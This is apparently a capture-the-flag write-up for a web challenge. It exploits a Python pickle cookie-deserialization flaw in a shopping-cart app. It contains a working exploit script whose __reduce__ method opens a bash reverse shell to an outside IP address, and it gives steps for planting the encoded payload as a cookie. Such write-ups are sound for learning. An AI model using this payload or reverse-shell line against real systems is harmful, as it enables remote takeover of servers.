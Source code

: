 ![image.png](images/Web/Pickle_Me_This_Cookie_Jar_Shenanigans/image1.png)

- As per mentioned in description we know that this server has **cookie deserialization vulnerability** in pickle `(CVE-2022-34668)` and we have to exploit it.
- After some googling around i found some pickle exploit scripts but many of them not properly working so after some head smashing finally got the script which work perfectly.

```python
from base64 import b64encode
import pickle
import subprocess

# Define a class for malicious deserialization
class anti_pickle_serum(object):
    def __reduce__(self):  # Use double underscores
        # This is where the reverse shell command will be executed
        return subprocess.Popen, (["/bin/bash", "-c", "bash -i >& /dev/tcp/13.127.206.16/15354 0>&1"],)

# Serialize the payload and encode it
pickled = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
encoded_pickled = b64encode(pickled)

# Print the base64 encoded malicious payload
print(encoded_pickled.decode())
```

- Steps of Exploitation,
    1. Setup The Environment,
        1. Start the `NGROK Server`
        2. Start the `Ncat Server`
        3. Prepare a `Reverse Shell Payload` to Put in Script
    2. Creating the Payload Using Above Script
    3. Go to the Webpage
    4. Add Any Item in Cart
    5. Go to Cart Section
    6. Open up the Application Section Inspect
    7. `Replace the Malicious Cookie` and `Just Refresh` and B00M!!!! Got a Shell 🫠

